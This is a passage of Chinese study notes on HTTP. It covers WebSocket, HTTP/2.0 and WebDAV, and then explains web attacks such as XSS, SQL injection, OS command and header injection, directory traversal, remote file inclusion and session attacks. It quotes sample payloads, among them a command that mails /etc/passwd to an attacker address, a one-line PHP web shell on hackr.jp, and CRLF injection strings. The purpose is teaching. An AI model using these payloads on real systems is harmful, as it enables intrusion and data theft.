### 9.3　使用浏览器进行全双工通信的WebSocket
利用 Ajax 和 Comet 技术进行通信可以提升 Web 的浏览速度。但问题
在于通信若使用 HTTP 协议，就无法彻底解决瓶颈问题。WebSocket
网络技术正是为解决这些问题而实现的一套新协议及 API。

当时筹划将 WebSocket 作为 HTML5 标准的一部分，而现在它却逐渐
变成了独立的协议标准。WebSocket 通信协议在 2011 年 12 月 11 日，
被 RFC 6455 - The WebSocket Protocol 定为标准。

**9.3.1　WebSocket 的设计与功能**

WebSocket，即 Web 浏览器与 Web 服务器之间全双工通信标准。其
中，WebSocket 协议由 IETF 定为标准，WebSocket API 由 W3C 定为
标准。仍在开发中的 WebSocket 技术主要是为了解决 Ajax 和 Comet
里 XMLHttpRequest 附带的缺陷所引起的问题。

**9.3.2　WebSocket 协议**

一旦 Web 服务器与客户端之间建立起 WebSocket 协议的通信连接，
之后所有的通信都依靠这个专用协议进行。通信过程中可互相发送
JSON、XML、HTML 或图片等任意格式的数据。

由于是建立在 HTTP 基础上的协议，因此连接的发起方仍是客户端，
而一旦确立 WebSocket 通信连接，不论服务器还是客户端，任意一方
都可直接向对方发送报文。

下面我们列举一下 WebSocket 协议的主要特点。

推送功能

支持由服务器向客户端推送数据的推送功能。这样，服务器可直接发
送数据，而不必等待客户端的请求。

减少通信量

只要建立起 WebSocket 连接，就希望一直保持连接状态。和 HTTP 相
比，不但每次连接时的总开销减少，而且由于 WebSocket 的首部信息
很小，通信量也相应减少了。

为了实现 WebSocket 通信，在 HTTP 连接建立之后，需要完成一
次“握手”（Handshaking）的步骤。

- 握手·请求

为了实现 WebSocket 通信，需要用到 HTTP 的 Upgrade 首部字
段，告知服务器通信协议发生改变，以达到握手的目的。


Sec-WebSocket-Key 字段内记录着握手过程中必不可少的键值。
Sec-WebSocket-Protocol 字段内记录使用的子协议。

子协议按 WebSocket 协议标准在连接分开使用时，定义那些连接
的名称。

- 握手·响应

对于之前的请求，返回状态码 101 Switching Protocols 的响应。


Sec-WebSocket-Accept 的字段值是由握手请求中的 Sec-
WebSocket-Key 的字段值生成的。

成功握手确立 WebSocket 连接之后，通信时不再使用 HTTP 的数
据帧，而采用 WebSocket 独立的数据帧。


- WebSocket API

JavaScript 可调用“The WebSocket
API”（http://www.w3.org/TR/websockets/，由W3C 标准制定）内
提供的 WebSocket 程序接口，以实现 WebSocket 协议下全双工通
信。

以下为调用 WebSocket API，每 50ms 发送一次数据的实例。

```
var socket = new WebSocket('ws://game.example.com:12010/updates');
socket.onopen = function () {
    setInterval(function() {
        if (socket.bufferedAmount == 0)
            socket.send(getUpdateData());
    }, 50);
};
```

### 9.4　期盼已久的 HTTP/2.0
目前主流的 HTTP/1.1 标准，自 1999 年发布的 RFC2616 之后再未进
行过改订。SPDY 和 WebSocket 等技术纷纷出现，很难断言 HTTP/1.1
仍是适用于当下的 Web 的协议。

负责互联网技术标准的 IETF（Internet Engineering Task Force，互联网
工程任务组）创立 httpbis（Hypertext Transfer Protocol
Bis，http://datatracker.ietf.org/wg/httpbis/）工作组，其目标是推进下一
代 HTTP——HTTP/2.0 在 2014 年 11 月实现标准化。

HTTP/2.0 的特点

HTTP/2.0 的目标是改善用户在使用 Web 时的速度体验。由于基本上
都会先通过 HTTP/1.1 与 TCP 连接，现在我们以下面的这些协议为基
础，探讨一下它们的实现方法。

- SPDY
- HTTP Speed ＋ Mobility
- Network-Friendly HTTP Upgrade

HTTP Speed ＋ Mobility 由微软公司起草，是用于改善并提高移动端
通信时的通信速度和性能的标准。它建立在 Google 公司提出的 SPDY
与 WebSocket 的基础之上。

Network-Friendly HTTP Upgrade 主要是在移动端通信时改善 HTTP 性
能的标准。

HTTP/2.0 的 7 项技术及讨论

HTTP/2.0 围绕着主要的 7 项技术进行讨论，现阶段（2012 年 8 月 13
日），大都倾向于采用以下协议的技术。但是，讨论仍在持续，所以
不能排除会发生重大改变的可能性。


### 9.5　Web 服务器管理文件的 WebDAV
WebDAV（Web-based Distributed Authoring and Versioning，基于万维网
的分布式创作和版本控制）是一个可对 Web 服务器上的内容直接进
行文件复制、编辑等操作的分布式文件系统。它作为扩展 HTTP/1.1
的协议定义在 RFC4918。


除了创建、删除文件等基本功能，它还具备文件创建者管理、文件编
辑过程中禁止其他用户内容覆盖的加锁功能，以及对文件内容修改的
版本控制功能。


使用 HTTP/1.1 的 PUT 方法和 DELETE 方法，就可以对 Web 服务器
上的文件进行创建和删除操作。可是出于安全性及便捷性等考虑，一
般不使用。

**9.5.1　扩展 HTTP/1.1 的 WebDAV**

针对服务器上的资源，WebDAV 新增加了一些概念，如下所示。


集合（Collection）：是一种统一管理多个资源的概念。以集合为
单位可进行各种操作。也可实现类似集合的集合这样的叠加。

资源（Resource）：把文件或集合称为资源。
属性（Property）：定义资源的属性。定义以“名称 = 值”的格式执行。

锁（Lock）：把文件设置成无法编辑状态。多人同时编辑时，可
防止在同一时间进行内容写入。

**9.5.2　WebDAV 内新增的方法及状态码**

- PROPFIND ：获取属性
- PROPPATCH ：修改属性
- MKCOL ：创建集合
- COPY ：复制资源及属性
- MOVE ：移动资源
- LOCK ：资源加锁
- UNLOCK ：资源解锁

为配合扩展的方法，状态码也随之扩展。

- 102 Processing ：可正常处理请求，但目前是处理中状态
- 207 Multi-Status ：存在多种状态
- 422 Unprocessible Entity ：格式正确，内容有误
- 423 Locked ：资源已被加锁
- 424 Failed Dependency ：处理与某请求关联的请求失败，因此不再维持依赖关系
- 507 Insufficient Storage ：保存空间不足

**WebDAV 的请求实例**

下面是使用 PROPFIND 方法对 http://www.example.com/file 发起
获取属性的请求。


**WebDAV 的响应实例**

下面是针对之前的 PROPFIND 方法，返回http://www.example.com/file 的属性的响应。


>为何 HTTP 协议受众如此广泛  
 本章讲解了几个与 HTTP 相关联的协议使用案例。为什么 HTTP 协
 议受众能够如此广泛呢？  
 过去，新编写接入互联网的系统或软件时，还需要同时编写实现与
 必要功能对应的新协议。但最近，使用 HTTP 的系统和软件占了绝
 大多数。  
 这有着诸多原因，其中与企业或组织的防火墙设定有着莫大的关
 系。防火墙的基本功能就是禁止非指定的协议和端口号的数据包通
 过。因此如果使用新协议或端口号则必须修改防火墙设置。  
 互联网上，使用率最高的当属 Web。不管是否具备访问 FTP 和
 SSH 的权限，一般公司都会开放对 Web 的访问。Web 是基于 HTTP
 协议运作的，因此在构建 Web 服务器或访问 Web 站点时，需事先
 设置防火墙 HTTP（80/tcp）和 HTTPS（443/tcp）的权限。  
 许多公司或组织已设定权限将 HTTP 作为通信环境，因此无须再修
 改防火墙的设定。可见 HTTP 具有导入简单这一大优势。而这也是
 基于 HTTP 服务或内容不断增加的原因之一。  
 还有一些其他原因，比如，作为 HTTP 客户端的浏览器已相当普
 遍，HTTP 服务器的数量已颇具规模，HTTP 本身就是优异的应用等。

## 十、构建 Web 内容的技术
### 10.1　HTML
**10.1.1　Web 页面几乎全由 HTML 构建**

**10.1.2　HTML 的版本**

HTML4 HTML5

**10.1.3　设计应用 CSS**

### 10.2　动态 HTML
**10.2.1　让 Web 页面动起来的动态 HTML**

**10.2.2　更易控制 HTML 的 DOM**

### 10.3　Web 应用
**10.3.1　通过 Web 提供功能的 Web 应用**

**10.3.2　与 Web 服务器及程序协作的 CGI**

**10.3.3　因 Java 而普及的 Servlet**

### 10.4　数据发布的格式及语言
**10.4.1　可扩展标记语言**

**10.4.2　发布更新信息的 RSS/Atom**

**10.4.3　JavaScript 衍生的轻量级易用 JSON**

## 十一、Web 的攻击技术
互联网上的攻击大都将 Web 站点作为目标。本章讲解具体有哪些攻
击 Web 站点的手段，以及攻击会造成怎样的影响。

### 11.1　针对 Web 的攻击技术
简单的 HTTP 协议本身并不存在安全性问题，因此协议本身几乎不会
成为攻击的对象。应用 HTTP 协议的服务器和客户端，以及运行在服
务器上的 Web 应用等资源才是攻击目标。

目前，来自互联网的攻击大多是冲着 Web 站点来的，它们大多把
Web 应用作为攻击目标。本章主要针对 Web 应用的攻击技术进行讲
解。

**11.1.1　HTTP 不具备必要的安全功能**

与最初的设计相比，现今的 Web 网站应用的 HTTP 协议的使用方式
已发生了翻天覆地的变化。几乎现今所有的 Web 网站都会使用会话
（session）管理、加密处理等安全性方面的功能，而 HTTP 协议内并
不具备这些功能。

从整体上看，HTTP 就是一个通用的单纯协议机制。因此它具备较多
优势，但是在安全性方面则呈劣势。

就拿远程登录时会用到的 SSH 协议来说，SSH 具备协议级别的认证
及会话管理等功能，HTTP 协议则没有。另外在架设 SSH 服务方面，
任何人都可以轻易地创建安全等级高的服务，而 HTTP 即使已架设好
服务器，但若想提供服务器基础上的 Web 应用，很多情况下都需要
重新开发。

因此，开发者需要自行设计并开发认证及会话管理功能来满足 Web
应用的安全。而自行设计就意味着会出现各种形形色色的实现。结
果，安全等级并不完备，可仍在运作的 Web 应用背后却隐藏着各种
容易被攻击者滥用的安全漏洞的 Bug。

**11.1.2　在客户端即可篡改请求**

在 Web 应用中，从浏览器那接收到的 HTTP 请求的全部内容，都可
以在客户端自由地变更、篡改。所以 Web 应用可能会接收到与预期
数据不相同的内容。

在 HTTP 请求报文内加载攻击代码，就能发起对 Web 应用的攻击。
通过 URL 查询字段或表单、HTTP 首部、Cookie 等途径把攻击代码传
入，若这时 Web 应用存在安全漏洞，那内部信息就会遭到窃取，或
被攻击者拿到管理权限。

**11.1.3　针对 Web 应用的攻击模式**

对 Web 应用的攻击模式有以下两种。

- 主动攻击
- 被动攻击
- 以服务器为目标的主动攻击  
  主动攻击（active attack）是指攻击者通过直接访问 Web 应用，
  把攻击代码传入的攻击模式。由于该模式是直接针对服务器上的
  资源进行攻击，因此攻击者需要能够访问到那些资源。  
  主动攻击模式里具有代表性的攻击是 SQL 注入攻击和 OS 命令注
  入攻击。
- 以服务器为目标的被动攻击  
  被动攻击（passive attack）是指利用圈套策略执行攻击代码的攻
  击模式。在被动攻击过程中，攻击者不直接对目标 Web 应用访
  问发起攻击。  
  被动攻击通常的攻击模式如下所示。  
  步骤 1： 攻击者诱使用户触发已设置好的陷阱，而陷阱会启动发
  送已嵌入攻击代码的 HTTP 请求。  
  步骤 2： 当用户不知不觉中招之后，用户的浏览器或邮件客户端
  就会触发这个陷阱。  
  步骤 3： 中招后的用户浏览器会把含有攻击代码的 HTTP 请求发
  送给作为攻击目标的 Web 应用，运行攻击代码。  
  步骤 4： 执行完攻击代码，存在安全漏洞的 Web 应用会成为攻
  击者的跳板，可能导致用户所持的 Cookie 等个人信息被窃取，
  登录状态中的用户权限遭恶意滥用等后果。  
  被动攻击模式中具有代表性的攻击是跨站脚本攻击和跨站点请求
  伪造。
  

  利用用户的身份攻击企业内部网络  
  利用被动攻击，可发起对原本从互联网上无法直接访问的企业内
  网等网络的攻击。只要用户踏入攻击者预先设好的陷阱，在用户
  能够访问到的网络范围内，即使是企业内网也同样会受到攻击。  
  很多企业内网依然可以连接到互联网上，访问 Web 网站，或接
  收互联网发来的邮件。这样就可能给攻击者以可乘之机，诱导用
  户触发陷阱后对企业内网发动攻击。
  

### 11.2　因输出值转义不完全引发的安全漏洞
实施 Web 应用的安全对策可大致分为以下两部分。
- 客户端的验证
- Web 应用端（服务器端）的验证
  - 输入值验证
  - 输出值转义
    
  多数情况下采用 JavaScript 在客户端验证数据。可是在客户端允许篡
  改数据或关闭 JavaScript，不适合将 JavaScript 验证作为安全的防范
  对策。保留客户端验证只是为了尽早地辨识输入错误，起到提高 UI
  体验的作用。  
  Web 应用端的输入值验证按 Web 应用内的处理则有可能被误认为是
  具有攻击性意义的代码。输入值验证通常是指检查是否是符合系统业
  务逻辑的数值或检查字符编码等预防对策。  
  从数据库或文件系统、HTML、邮件等输出 Web 应用处理的数据之
  际，针对输出做值转义处理是一项至关重要的安全策略。当输出值转
  义不完全时，会因触发攻击者传入的攻击代码，而给输出对象带来损
  害。

#### 11.2.1　跨站脚本攻击

跨站脚本攻击（Cross-Site Scripting，XSS）是指通过存在安全漏洞的
Web 网站注册用户的浏览器内运行非法的 HTML 标签或 JavaScript 进
行的一种攻击。动态创建的 HTML 部分有可能隐藏着安全漏洞。就
这样，攻击者编写脚本设下陷阱，用户在自己的浏览器上运行时，一
不小心就会受到被动攻击。

跨站脚本攻击有可能造成以下影响。
- 利用虚假输入表单骗取用户个人信息。
- 利用脚本窃取用户的 Cookie 值，被害者在不知情的情况下，
- 帮助攻击者发送恶意请求。
- 显示伪造的文章或图片。  
　跨站脚本攻击案例  
  在动态生成 HTML 处发生  
  下面以编辑个人信息页面为例讲解跨站脚本攻击。下方界面显示
  了用户输入的个人信息内容。
  

此时的确认界面上，浏览器会把用户输入的'<s> 解析成 HTML
标签，然后显示删除线</s>。

删除线显示出来并不会造成太大的不利后果，但如果换成使用
script 标签将会如何呢。

XSS 是攻击者利用预先设置的陷阱触发的被动攻击
跨站脚本攻击属于被动攻击模式，因此攻击者会事先布置好用于
攻击的陷阱。

下图网站通过地址栏中 URI 的查询字段指定 ID，即相当于在表
单内自动填写字符串的功能。而就在这个地方，隐藏着可执行跨
站脚本攻击的漏洞。


充分熟知此处漏洞特点的攻击者，于是就创建了下面这段嵌入恶
意代码的 URL。并隐藏植入事先准备好的欺诈邮件中或 Web 页
面内，诱使用户去点击该 URL。



浏览器打开该 URI 后，直观感觉没有发生任何变化，但设置好的
脚本却偷偷开始运行了。当用户在表单内输入 ID 和密码之后，
就会直接发送到攻击者的网站（也就是 hackr.jp），导致个人登
录信息被窃取。


- 对用户 Cookie 的窃取攻击

除了在表单中设下圈套之外，下面那种恶意构造的脚本同样能够
以跨站脚本攻击的方式，窃取到用户的 Cookie 信息。


#### 11.2.2　SQL 注入攻击
- 会执行非法 SQL 的 SQL 注入攻击  
  SQL 注入（SQL Injection）是指针对 Web 应用使用的数据库，通
  过运行非法的 SQL 而产生的攻击。该安全隐患有可能引发极大
  的威胁，有时会直接导致个人信息及机密信息的泄露。  
  Web 应用通常都会用到数据库，当需要对数据库表内的数据进行
  检索或添加、删除等操作时，会使用 SQL 语句连接数据库进行
  特定的操作。如果在调用 SQL 语句的方式上存在疏漏，就有可
  能执行被恶意注入（Injection）非法 SQL 语句。  
  SQL 注入攻击有可能会造成以下等影响。
  - 非法查看或篡改数据库内的数据
  - 规避认证
  - 执行和数据库服务器业务关联的程序等
- SQL 注入攻击案例  
  下面以某个购物网站的搜索功能为例，讲解 SQL 注入攻击。通
  过该功能，我们可以将某作者的名字作为搜索关键字，查找该作
  者的所有著作.
  
  正常处理的操作示例  
  下图是将“上野宣”作为关键字的搜索结果。
  
  URL 的查询字段已指定 q= 上野宣，这个值由 Web 应用传入到
  SQL 语句中，构成下方的 SQL 语句。  
  SELECT * FROM bookTbl WHERE author = '上野宣' and flag = 1;
  该 SQL 语句表示“从 bookTbl 表中，显示满足 author= 上野宣 and
  flag=1（可售）所在行的数据”。  
  数据库内的 bookTbl 表记录着该购物网站的所有书籍信息。通过
  SQL 语句，将满足作者名（author）上野宣并且 flag 为 1 双重条
  件的条目取出，最后作为搜索结果显示出来。
  
  SQL 注入攻击的操作示例  
  把刚才指定查询字段的上野宣改写成“上野宣'--”。
    
  SQL 语句中的 -- 之后全视为注释。即，and flag=1 这个条件被自
  动忽略了.
  

- SQL 注入攻击破坏 SQL 语句结构的案例  
  SQL 注入是攻击者将 SQL 语句改变成开发者意想不到的形式以
  达到破坏结构的攻击。  
  比如，在之前的攻击案例中，就会把 author 的字面值（程序中使
  用 的常量）" 上野宣 '--" 的字符串赋值给 $q。
  
  上图中颜色标记的字符串最开始的单引号 (') 表示会将 author 的
  字面值括起来，以到达第二个单引号后作为结束。因此，author
  的字面值就成了上野宣，而后面的 -- 则不再属于 author 字面
  值，会被解析成其他的句法。  
  本案例中的问题仅仅是把未出版书籍的条目也一同显示出来了。
  但实际发生 SQL 注入攻击时，很有可能会导致用户信息或结算
  内容等其他数据表的非法浏览及篡改，从而使用户遭受不同程度
  的损失。
#### 11.2.3　OS 命令注入攻击
OS 命令注入攻击（OS Command Injection）是指通过 Web 应用，执行
非法的操作系统命令达到攻击的目的。只要在能调用 Shell 函数的地
方就有存在被攻击的风险。

可以从 Web 应用中通过 Shell 来调用操作系统命令。倘若调用 Shell
时存在疏漏，就可以执行插入的非法 OS 命令。

OS 命令注入攻击可以向 Shell 发送命令，让 Windows 或 Linux 操作系
统的命令行启动程序。也就是说，通过 OS 注入攻击可执行 OS 上安
装着的各种程序。

- OS 注入攻击案例

  下面以咨询表单的发送功能为例，讲解 OS 注入攻击。该功能可
  将用户的咨询邮件按已填写的对方邮箱地址发送过去。

  
  
  攻击者的输入值中含有分号（;）。这个符号在 OS 命令中，会被
  解析为分隔多个执行命令的标记

  可见，sendmail 命令执行被分隔后，接下去就会执行 cat
  /etc/passwd | mail hack@example.jp 这样的命令了。结果，含有
  Linux 账户信息 /etc/passwd 的文件，就以邮件形式发送给了
  hack@example.jp。

#### 11.2.4　HTTP 首部注入攻击
HTTP 首部注入攻击（HTTP Header Injection）是指攻击者通过在响应
首部字段内插入换行，添加任意响应首部或主体的一种攻击。属于被
动攻击模式。

向首部主体内添加内容的攻击称为 HTTP 响应截断攻击（HTTP
Response Splitting Attack）。

如下所示，Web 应用有时会把从外部接收到的数值，赋给响应首部字
段 Location 和 Set-Cookie。


HTTP 首部注入可能像这样，通过在某些响应首部字段需要处理输出
值的地方，插入换行发动攻击。

HTTP 首部注入攻击有可能会造成以下一些影响。
- 设置任何 Cookie 信息
- 重定向至任意 URL
- 显示任意的主体（HTTP 响应截断攻击）
- HTTP 首部注入攻击案例  
  下面我们以选定某个类别后即可跳转至各类别对应页面的功能为
  例，讲解 HTTP 首部注入攻击。该功能为每个类别都设定了一个
  类别 ID 值，一旦选定某类别，就会将该 ID 值反映在响应内的
  Location 首部字段内，形如 Location: http://example.com/?
  cat=101。令浏览器发生重定 向跳转。

  

  攻击者以下面的内容替代之前的类别 ID 后发送请求。

  ```
  101%0D%0ASet-Cookie:+SID=123456789
  ```
  其中，%0D%0A 代表 HTTP 报文中的换行符，紧接着的是可强
  制将攻击者网站（http://hackr.jp/）的会话 ID 设置成
  SID=123456789 的 Set-Cookie 首部字段。

  发送该请求之后，假设结果返回以下响应。

  ```
  Location: http://example.com/?cat=101（%0D%0A ：换行符）
  Set-Cookie: SID=123456789
  ```
  此刻，首部字段 Set-Cookie 已生效，因此攻击者可指定修改任意
  的 Cookie 信息。通过和会话固定攻击（攻击者可使用指定的会
  话 ID）攻击组合，攻击者可伪装成用户.

  攻击者输入的 %0D%0A，原本应该属于首部字段 Location 的查
  询值部分，但经过解析后，%0D%0A 变成了换行符，结果插入
  了新的首部字段。

  这样一来，攻击者可在响应中插入任意的首部字段。
- HTTP 响应截断攻击  
  HTTP 响应截断攻击是用在 HTTP 首部注入的一种攻击。攻击顺
  序相同，但是要将两个 %0D%0A%0D%0A 并排插入字符串后发
  送。利用这两个连续的换行就可作出 HTTP 首部与主体分隔所需
  的空行了，这样就能显示伪造的主体，达到攻击目的。这样的攻
  击叫做 HTTP 响应截断攻击。
  ```
  %0D%0A%0D%0A<HTML><HEAD><TITLE>之后，想要显示的网页内容 <!
  ```
  在可能进行 HTTP 首部注入的环节，通过发送上面的字符串，返
  回结果得到以下这种响应。

  ```
  Set-Cookie: UID=（%0D%0A ：换行符）
  （%0D%0A ：换行符）
  <HTML><HEAD><TITLE>之后，想要显示的网页内容 <!--（原来页面对应的首部
  ```

  利用这个攻击，已触发陷阱的用户浏览器会显示伪造的 Web 页
  面，再让用户输入自己的个人信息等，可达到和跨站脚本攻击相
  同的效果。

  另外，滥用 HTTP/1.1 中汇集多响应返回功能，会导致缓存服务
  器对任意内容进行缓存操作。这种攻击称为缓存污染。使用该缓
  存服务器的用户，在浏览遭受攻击的网站时，会不断地浏览被替
  换掉的 Web 网页。
#### 11.2.5　邮件首部注入攻击
邮件首部注入（Mail Header Injection）是指 Web 应用中的邮件发送功
能，攻击者通过向邮件首部 To 或 Subject 内任意添加非法内容发起的
攻击。利用存在安全漏洞的 Web 网站，可对任意邮件地址发送广告
邮件或病毒邮件。

下面以 Web 页面中的咨询表单为例讲解邮件首部注入攻击。该
功能可在表单内填入咨询者的邮件地址及咨询内容后，以邮件的
形式发送给网站管理员。


攻击者将以下数据作为邮件地址发起请求。

```
bob@hackr.jp%0D%0ABcc: user@example.com
```
%0D%0A 在邮件报文中代表换行符。一旦咨询表单所在的 Web
应用接收了这个换行符，就可能实现对 Bcc 邮件地址的追加发
送，而这原本是无法指定的。

另外像下面一样，使用两个连续的换行符就有可能篡改邮件文本
内容并发送。

```
bob@hackr.jp%0D%0A%0D%0ATest Message
```

再以相同的方法，就有可能改写 To 和 Subject 等任意邮件首部，
或向文本添加附件等动作。
#### 11.2.6　目录遍历攻击
目录遍历（Directory Traversal）攻击是指对本无意公开的文件目录，
通过非法截断其目录路径后，达成访问目的的一种攻击。这种攻击有
时也称为路径遍历（Path Traversal）攻击。

通过 Web 应用对文件处理操作时，在由外部指定文件名的处理存在
疏漏的情况下，用户可使用 .../ 等相对路径定位到 /etc/passed 等绝对
路径上，因此服务器上任意的文件或文件目录皆有可能被访问到。这
样一来，就有可能非法浏览、篡改或删除 Web 服务器上的文件。

固然存在输出值转义的问题，但更应该关闭指定对任意文件名的访问
权限。

- 目录遍历攻击案例

  下面以显示读取文件功能为例，讲解目录遍历攻击。该功能通过
  以下查询字段，指定某个文件名。然后从 /www/log/ 文件目录下
  读取这个指定的文件。

  ```
  http://example.com/read.php?log=0401.log
  ```

  攻击者设置如下查询字段后发出请求。

  ```
  http://example.com/read.php?log=../../etc/passwd
  ```

  查询字段为了读取攻击者盯上的 /etc/passwd 文件，会从
  /www/log/ 目录开始定位相对路径。如果这份 read.php 脚本接受
  对指定目录的访问请求处理，那原本不公开的文件就存在可被访
  问的风险。

  

#### 11.2.7　远程文件包含漏洞
远程文件包含漏洞（Remote File Inclusion）是指当部分脚本内容需要
从其他文件读入时，攻击者利用指定外部服务器的 URL 充当依赖文
件，让脚本读取之后，就可运行任意脚本的一种攻击。

这主要是 PHP 存在的安全漏洞，对 PHP 的 include 或 require 来说，
这是一种可通过设定，指定外部服务器的 URL 作为文件名的功能。
但是，该功能太危险，PHP5.2.0 之后默认设定此功能无效。

固然存在输出值转义的问题，但更应控制对任意文件名的指定。

- 远程文件包含漏洞的攻击案例f

  下面以 include 读入由查询字段指定文件的功能为例，讲解远程
  文件包含漏洞。该功能可通过以下查询字段形式指定文件名，并
  在脚本内的 include 语句处读入这个指定文件。

  ```
  http://example.com/foo.php?mod=news.php
  ```
  对应脚本的源代码如下所示。

  >http://example.com/foo.php 的源代码（部分摘录）

  ```
  $modname = $_GET['mod'];
  include($modname);
  ```

  攻击者指定如同下面形式的 URL 发出请求。

  ```
  http://example.com/foo.php?mod=http://hackr.jp/cmd.php&cmd=ls
  ```

  攻击者已事先在外部服务器上准备了以下这段脚本。

  >http://hackr.jp/cmd.php 的源代码

  ```
  <? system($_GET['cmd']) ?>
  ```

  假设 Web 服务器（example.com）的 include 可以引入外部服务器
  的 URL，那就会读入攻击者在外部服务器上事先准备的
  URL（http://hackr.jp/cmd.php）。结果，通过 system 函数就能在
  Web 服务器（example.com）上执行查询字段指定的 OS 命令了。

  

  在以上攻击案例中，执行了可显示 Web 服务器（example.com）
  上文件及目录信息的 ls 命令。

### 11.3　因设置或设计上的缺陷引发的安全漏洞
因设置或设计上的缺陷引发的安全漏洞是指，错误设置 Web 服务
器，或是由设计上的一些问题引起的安全漏洞。
#### 11.3.1　强制浏览
强制浏览（Forced Browsing）安全漏洞是指，从安置在 Web 服务器
的公开目录下的文件中，浏览那些原本非自愿公开的文件。

强制浏览有可能会造成以下一些影响。

- 泄露顾客的个人信息等重要情报
- 泄露原本需要具有访问权限的用户才可查阅的信息内容
- 泄露未外连到外界的文件

对那些原本不愿公开的文件，为了保证安全会隐蔽其 URL。可一旦知
道了那些 URL，也就意味着可浏览 URL 对应的文件。直接显示容易
推测的文件名或文件目录索引时，通过某些方法可能会使 URL 产生
泄露。

文件目录一览

http://www.example.com/log/

通过指定文件目录名称，即可在文件一览中看到显示的文件名。

容易被推测的文件名及目录名

http://www.example.com/entry/entry_081202.log  
文件名称容易推测（按上面的情况，可推出下一个文件是
entry_081203.log）

备份文件

http://www.example.com/cgi-bin/entry.cgi（原始文件）

http://www.example.com/cgi-bin/entry.cgi~（备份文件）

http://www.example.com/cgi-bin/entry.bak（备份文件）

由编辑软件自动生成的备份文件无执行权限，有可能直接以源代码形
式显示

经认证才可显示的文件

直接通过 URL 访问原本必须经过认证才能在 Web 页面上使用的文件
（HTML 文件、图片、PDF 等文档、CSS 以及其他数据等）

- 强制浏览导致安全漏洞的案例

  下面我们以会员制度的 SNS 日记功能为例，讲解强制浏览可能导致
  的安全漏洞。该日记功能保证了除具有访问权限的用户本人以外，其
  他人都不能访问日记。

  

  该日记中包含的图像照片的源代码如下所示。

  ```
  
  ```

  即使没有对这篇日记的访问权限，只要知道这图片的 URL，通过直接
  指定 URL 的方式就能显示该图片。日记的功能和文本具有访问对象
  的控制，但不具备对图片访问对象的控制，从而产生了安全漏洞。

#### 11.3.2　不正确的错误消息处理
不正确的错误消息处理（Error Handling Vulnerability）的安全漏洞是
指，Web 应用的错误信息内包含对攻击者有用的信息。与 Web 应用
有关的主要错误信息如下所示。
- Web 应用抛出的错误消息
- 数据库等系统抛出的错误消息

Web 应用不必在用户的浏览画面上展现详细的错误消息。对攻击者来
说，详细的错误消息有可能给他们下一次攻击以提示。

- 不正确的错误消息处理导致安全漏洞的案例

**Web 应用抛出的错误消息**

下面以认证功能的认证错误消息为例，讲解不正确的错误消息处
理方式。该认证功能，在输入表单内的邮件地址及密码匹配发生
错误时，会提示错误信息。


上方画面提示“邮件地址未注册”的错误消息。当输入的邮件地址
尚未在该 Web 网站上注册时，就会触发这条错误消息。因为倘
若邮件地址存在，应该会提示“输入的密码有误”之类的错误消
息。

攻击者利用进行不同的输入会提示不同的错误信息这条，就可用
来确认输入的邮件地址是否已在这个 Web 网站上注册过了。

为了不让错误消息给攻击者以启发，建议将提示消息的内容仅保
留到“认证错误”这种程度即可。

**数据库等系统抛出的错误消息**

下面我们以搜索功能提示的错误信息为例，讲解不正确的错误消
息处理。本功能用于检索数据，当输入未预料的字符串时，会提
示数据库的错误。

下面以认证功能的认证错误消息为例，讲解不正确的错误消息处
理。该认证功能在输入表单内的邮件地址及密码匹配发生错误
时，会提示错误信息。


上方的画面中显示了与 SQL 有关的错误信息。对开发者而言，
该信息或许在 Debug 时会有帮助，但对用户毫无用处。
攻击者从这条消息中可读出数据库选用的是 MySQL，甚至还看
见了 SQL 语句的片段。这可能给攻击者进行 SQL 注入攻击以启
发。

系统抛出的错误主要集中在以下几个方面。
- PHP 或 ASP 等脚本错误
- 数据库或中间件的错误
- Web 服务器的错误

各系统应对详细的错误消息进行抑制设定，或使用自定义错误消
息，以避免某些错误信息给攻击者以启发。

#### 11.3.3　开放重定向
开放重定向（Open Redirect）是一种对指定的任意 URL 作重定向跳转
的功能。而于此功能相关联的安全漏洞是指，假如指定的重定向 URL
到某个具有恶意的 Web 网站，那么用户就会被诱导至那个 Web 网
站。

- 开放重定向的攻击案例

  我们以下面的 URL 做重定向为例，讲解开放重定向攻击案例。
  该功能就是向 URL 指定参数后，使本来的 URL 发生重定向跳
  转。

  ```
  http://example.com/?redirect=http://www.tricorder.jp
  ```

  攻击者把重定向指定的参数改写成已设好陷阱的 Web 网站对应
  的 连接，如下所示。

  ```
  http://example.com/?redirect=http://hackr.jp
  ```

  用户看到 URL 后原以为访问 example.com，不料实际上被诱导至
  hackr.jp 这个指定的重定向目标。

  可信度高的 Web 网站如果开放重定向功能，则很有可能被攻击
  者选中并用来作为钓鱼攻击的跳板。

### 11.4　因会话管理疏忽引发的安全漏洞
会话管理是用来管理用户状态的必备功能，但是如果在会话管理上有
所疏忽，就会导致用户的认证状态被窃取等后果。
#### 11.4.1　会话劫持
会话劫持（Session Hijack）是指攻击者通过某种手段拿到了用户的会
话 ID，并非法使用此会话 ID 伪装成用户，达到攻击的目的。


具备认证功能的 Web 应用，使用会话 ID 的会话管理机制，作为管理
认证状态的主流方式。会话 ID 中记录客户端的 Cookie 等信息，服务
器端将会话 ID 与认证状态进行一对一匹配管理。

下面列举了几种攻击者可获得会话 ID 的途径。
- 通过非正规的生成方法推测会话 ID
- 通过窃听或 XSS 攻击盗取会话 ID
- 通过会话固定攻击（Session Fixation）强行获取会话 ID
- 会话劫持攻击案例

下面我们以认证功能为例讲解会话劫持。这里的认证功能通过会
话管理机制，会将成功认证的用户的会话 ID（SID）保存在用户
浏览器的 Cookie 中。


攻击者在得知该 Web 网站存在可跨站攻击（XSS）的安全漏洞
后，就设置好用 JavaScript 脚本调用 document.cookie 以窃取
Cookie 信息的陷阱，一旦用户踏入陷阱（访问了该脚本），攻击
者就能获取含有会话 ID 的 Cookie。

攻击者拿到用户的会话 ID 后，往自己的浏览器的 Cookie 中设置
该会话 ID，即可伪装成会话 ID 遭窃的用户，访问 Web 网站了。

#### 11.4.2　会话固定攻击
对以窃取目标会话 ID 为主动攻击手段的会话劫持而言，会话固定攻
击（Session Fixation）攻击会强制用户使用攻击者指定的会话 ID，属
于被动攻击。

- 会话固定攻击案例

  下面我们以认证功能为例讲解会话固定攻击。这个 Web 网站的
  认证功能，会在认证前发布一个会话 ID，若认证成功，就会在
  服务器内改变认证状态。

  

  攻击者准备陷阱，先访问 Web 网站拿到会话
  ID（SID=f5d1278e8109）。此刻，会话 ID 在服务器上的记录仍
  是（未认证）状态。（步骤① ~ ②）

